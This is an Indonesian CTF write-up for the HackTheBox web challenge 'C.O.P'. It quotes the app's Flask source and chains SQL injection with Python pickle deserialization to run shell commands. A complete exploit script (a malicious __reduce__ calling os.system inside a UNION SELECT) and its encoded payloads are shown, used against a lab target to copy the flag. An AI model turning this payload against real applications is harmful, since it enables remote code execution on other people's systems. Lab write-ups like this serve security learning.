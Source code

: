 # C.O.P (Cult of Pickle)

```bash
Target	= 167.99.85.216
Port	= 31569
```

Jika kita buka, akan muncul website onile shop merch. Setelah saya coba klik sana sini, ternyata, ketika kita pergi ke halaman salah satu produk, kita dapat berpindah ke halaman produk lain dengan produk id
```
http://Target:Port/view/1
................../view/2
................../view/..
................../view/5
```
Jika kita memasukkan id > 4, maka kita akan mendapat response 5xx, yang mana mengindikasikan tidak ada produk dengan id tersebut. Hal ini menunjukkan potensi SQL Injection. Selanjutnya saya mencoba untuk melihat source code di file yang telah saya download. Ternyata saya menemukan bahwa web ini menggunakan python sebagai back-end, selain itu saya mendapat beberapa file. Disini saya menggunakan Docker untuk deploy web challange di local.
```bash
sudo service docker start
sudo ./build_docker.sh
...
...
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:1337
...
```
Selanjutnya kita lihat beberapa file yang menarik di web app
```python
# web_cop/challenge/application/app.py

from flask import Flask, g
from application.blueprints.routes import web
import pickle, base64

app = Flask(__name__)
app.config.from_object('application.config.Config')

app.register_blueprint(web, url_prefix='/')

@app.template_filter('pickle')
def pickle_loads(s):
        return pickle.loads(base64.b64decode(s))

@app.teardown_appcontext
def close_connection(exception):
    db = getattr(g, '_database', None)
    if db is not None: db.close()
```

```python
# web_cop/challenge/application/database.py

from flask import g
from application import app
from sqlite3 import dbapi2 as sqlite3
import base64, pickle

def connect_db():
    return sqlite3.connect('cop.db', isolation_level=None)
    
def get_db():
    db = getattr(g, '_database', None)
    if db is None:
        db = g._database = connect_db()
        db.row_factory = sqlite3.Row
    return db

def query_db(query, args=(), one=False):
    with app.app.app_context():
        cur = get_db().execute(query, args)
        rv = [dict((cur.description[idx][0], value) \
            for idx, value in enumerate(row)) for row in cur.fetchall()]
        return (next(iter(rv[0].values())) if rv else None) if one else rv

class Item:
	def __init__(self, name, description, price, image):
		self.name = name
		self.description = description
		self.image = image
		self.price = price

def migrate_db():
    items = [
        Item('Pickle Shirt', 'Get our new pickle shirt!', '23', '/static/images/pickle_shirt.jpg'),
        Item('Pickle Shirt 2', 'Get our (second) new pickle shirt!', '27', '/static/images/pickle_shirt2.jpg'),
        Item('Dill Pickle Jar', 'Literally just a pickle', '1337', '/static/images/pickle.jpg'),
        Item('Branston Pickle', 'Does this even fit on our store?!?!', '7.30', '/static/images/branston_pickle.jpg')
    ]
    
    with open('schema.sql', mode='r') as f:
        shop = map(lambda x: base64.b64encode(pickle.dumps(x)).decode(), items)
        get_db().cursor().executescript(f.read().format(*list(shop)))
```

```python
# web_cop/challenge/application/models.py

from application.database import query_db

class shop(object):

    @staticmethod
    def select_by_id(product_id):
        return query_db(f"SELECT data FROM products WHERE id='{product_id}'", one=True)

    @staticmethod
    def all_products():
        return query_db('SELECT * FROM products')
```

Dari beberapa file tersebut kita mendapat informasi bahwa:
- web ini menggunakan python flask
- web ini menggunakan sqlite
- web ini menggunakan library `pickle` di python

Library `pickle` di python memungkinkan kita untuk melakukan serialize dan deserialize data. Dalam docs dari [pickle](https://docs.python.org/3/library/pickle.html), terdapat peringatan `Warning The pickle module is not secure. Only unpickle data you trust.`. Hal ini karena `pickle` memungkinkan kita mengubah python object ke urutan byte dan mengubahnya kembali ke python object. Kita akan melakukan exploit di `pickle` ini. Untuk penjelasan lengkap dan mendetail tentang exploit, kamu bisa baca di [artikel berikut](https://davidhamann.de/2020/04/05/exploiting-python-pickle/). Disini saya menggunakan exploit yang ada di [artikel](https://davidhamann.de/2020/04/05/exploiting-python-pickle/) untuk mendapatkan flag. Berikut adalah exploitnya
```python
# exploit.py

import pickle
import base64
import os
import urllib.parse as url_encode

class Exploit:
    def __reduce__(self):
        cmd = ('touch heheheheheh.txt')
        return os.system, (cmd,)

def pickling():
    pickled = pickle.dumps(Exploit())
    payload = base64.urlsafe_b64encode(pickled).decode('ascii')
    return payload

def convert_to_url(x):
    sql_cmd = f"' UNION SELECT '{x}"
    encoding = url_encode.quote(sql_cmd)
    return encoding


if __name__ == '__main__':
    x = pickling()
    print(convert_to_url(x))
```
Selanjutnya kita run
```bash
python3 exploit.py
..
%27%20UNION%20SELECT%20%27gASVLwAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjBR0b3VjaCBoZWhlaGVoZWhlLnR4dJSFlFKULg%3D%3D
```
Jika kita passing payload tersebut ke `http://127.0.0.0:1337/view/<payload>` maka web akan memberikan tampilan website yang rusak. Hal ini menjadi pertanda baik. Selanjutnya kita bisa mendapatkan flag dengan cara copy file `flag.txt` ke public direktori yang ada di website, dalam hal ini adalah `../static/..`, jadi ubah cmd pada script menjadi
```python
...
class Exploit:
    def __reduce__(self):
        cmd = ('cp flag.txt application/static/.')
        return os.system, (cmd,)
...
```
Selanjutnya, kita dapat run script exploit sekali lagi
```bash
python3 exploit.py
..
%27%20UNION%20SELECT%20%27gASVOwAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjCBjcCBmbGFnLnR4dCBhcHBsaWNhdGlvbi9zdGF0aWMvLpSFlFKULg%3D%3D
```
dan kita dapat gunakan payload tersebut ke link `http://127.0.0.1:1337/view/<payload>`. Selanjutnya kita dapat akses public dir nya untuk mebaca isi flag dengan curl
```bash
curl http://127.0.0.1:1337/static/flag.txt
HTB{f4k3_fl4gs_f0r_t3st1ng}
```
dan berhasil, kita dapat langsung menggunkan payload tersebut ke web target.
